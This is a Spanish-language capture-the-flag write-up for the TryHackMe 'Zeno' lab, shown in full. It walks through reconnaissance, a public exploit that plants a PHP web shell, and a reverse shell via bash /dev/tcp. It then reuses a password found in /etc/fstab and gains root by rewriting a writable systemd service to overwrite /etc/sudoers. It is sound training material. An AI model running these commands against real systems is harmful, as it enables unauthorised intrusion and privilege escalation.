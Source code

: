 ```yaml
---
title : "Zeno - Write Up - Español"
date : 2021-10-23T13:13:28+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "Máquina de nivel medio en TryHackMe."
tags : ["RCE","service","sudo","RMS","TryHackMe"]
---
```


| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/zeno)  | Medio  |  [Biniru](https://tryhackme.com/p/Biniru)  |

## Reconocimiento

¡Bienvenid@ de nuevo!

¡Comencemos esta máquina con un escaneo `nmap`, para ver qué servicios se están ejecutando!

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.229.206 -p- -sS --min-rate 5000 -n -Pn                                                                            ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-23 13:16 CEST
Nmap scan report for 10.10.229.206
Host is up (0.14s latency).
Not shown: 65533 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
12340/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.86 seconds
```
¡Excelente! ¡Un servicio `ssh` en el puerto` 22` y un servicio `desconocido(servidor web)` ejecutándose en el puerto `12340`! 

¡Ahora escaneemos el puerto web con `gobuster`, para ver qué archivos están ocultos!

```bash
╰─ lanfran@parrot ❯ scan_long http://10.10.229.206:12340/                                                                                             ─╯
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.229.206:12340/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/10/23 13:38:39 Starting gobuster
===============================================================
/rms (Status: 301)
===============================================================
2021/10/23 13:43:56 Finished
===============================================================
```
¡Una carpeta con una página web ejecutándose!

¡Veamos esta web!

![web](web.png)

`Restaurant Management System` está diciendo la página, ¡tal vez podamos encontrar un exploit público para ella!

¡Y si! Tenemos uno [aquí](exp.py)

Ejecutarlo creará un shell php donde podemos obtener una shell reversa.

```bash
╰─ lanfran@parrot ❯ python3 exp.py http://10.10.229.206:12340/rms/                                                                                    ─╯

    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|



Credits : All InfoSec (Raja Ji's) Group
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL : http://10.10.229.206:12340/rms/images/reverse-shell.php
```

¡Podemos comprobar si la shell está funcionando con un comando común!

```bash
╰─ lanfran@parrot ❯ curl "http://10.10.229.206:12340/rms/images/reverse-shell.php?cmd=id"                                                             ─╯
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```
¡Y si! El servidor se está ejecutando con el usuario `apache`.

## Acceso inicial - Usuario

Consigamos una shell reversa!

```bash
[Terminal 1]

╰─ lanfran@parrot ❯ curl http://10.10.229.206:12340/rms/images/reverse-shell.php\?cmd\=bash+-i+%3E%26+/dev/tcp/10.9.2.74/1337+0%3E%261                ─╯

------

[Terminal 2]

╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                                     ─╯
listening on [any] 1337 ...
connect to [10.9.2.74] from (UNKNOWN) [10.10.229.206] 39332
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```
Ahora, escaneemos la máquina con `Linpeas` o manualmente...

¡Podemos encontrar un archivo, almacenando los sistemas de archivos compartidos! y dentro de ella una contraseña para el usuario `zeno`.

```bash
bash-4.2$ cat /etc/fstab

#
# /etc/fstab
# Created by anaconda on Tue Jun  8 23:56:31 2021
#
# Accessible filesystems, by reference, are maintained under '/dev/disk'
# See man pages fstab(5), findfs(8), mount(8) and/or blkid(8) for more info
#
/dev/mapper/centos-root	/	xfs	defaults	0 0
UUID=507d63a9-d8cc-401c-a660-bd57acfd41b2	/boot	xfs	defaults	0 0
/dev/mapper/centos-swap	swap	swap	defaults	0 0
#//10.10.10.10/secret-share	/mnt/secret-share	cifs	_netdev,vers=3.0,ro,username=zeno,password=F[REDACTADO]a,domain=localdomain,soft	0 0
```

Tal vez podamos probar esta contraseña con el usuario de esta máquina `edward` ...

```bash
bash-4.2$ su edward
Password: 
[edward@zeno home]$ id
uid=1000(edward) gid=1000(edward) groups=1000(edward) context=system_u:system_r:httpd_t:s0
[edward@zeno home]$ cat /home/edward/user.txt 
THM{[REDACTADO]}
```
¡Sip, funcionó!

## Root

¡Ahora escalemos a root!

```bash
[edward@zeno home]$ sudo -l
Matching Defaults entries for edward on zeno:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
```
¡Podemos ejecutar como sudo el binario `reboot`! 

Buscando los archivos de esta máquina, encontramos que el archivo `zeno-monitoring.service` tiene escritura para todos.
```bash
[edward@zeno home]$ ls -la /etc/systemd/system/zeno-monitoring.service
-rw-rw-rw-. 1 root root 141 Sep 21 22:24 /etc/systemd/system/zeno-monitoring.service
```
¡Así que podemos editarlo para ejecutar un exploit!

```bash
[edward@zeno home]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBy=multi-user.target
```

Editándolo, debería verse así:

```bash
[edward@zeno home]$ cat /etc/systemd/system/zeno-monitoring.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/sh -c 'echo "edward ALL=(root) NOPASSWD: ALL" > /etc/sudoers'

[Install]
WantedBy=multi-user.target
```
Este exploit agregará nuestro usuario al archivo `sudoers`, por lo que podemos ejecutar todos los comandos con `sudo`.

Después de eso, ¡reiniciemos la máquina y veamos si el exploit funcionó!
```bash
[edward@zeno home]$ sudo /usr/sbin/reboot 
```
Espere a que la máquina se reinicie y conéctese a través de `ssh` con el usuario `edward`.

```bash
╰─ lanfran@parrot ❯ ssh edward@10.10.229.206                                                                                                          ─╯
edward@10.10.229.206's password: 
Last login: Sat Oct 23 14:38:36 2021
[edward@zeno ~]$ id
uid=1000(edward) gid=1000(edward) groups=1000(edward) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[edward@zeno ~]$ sudo -l
User edward may run the following commands on zeno:
    (root) NOPASSWD: ALL
```
¡El exploit funcionó! ¡Podemos ejecutar cualquier comando con sudo!
```bash
[edward@zeno ~]$ sudo su
[root@zeno edward]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@zeno edward]# cat /root/root.txt 
THM{[REDACTADO]}
```
Eso es todo de mi parte, ¡espero que lo encuentre útil!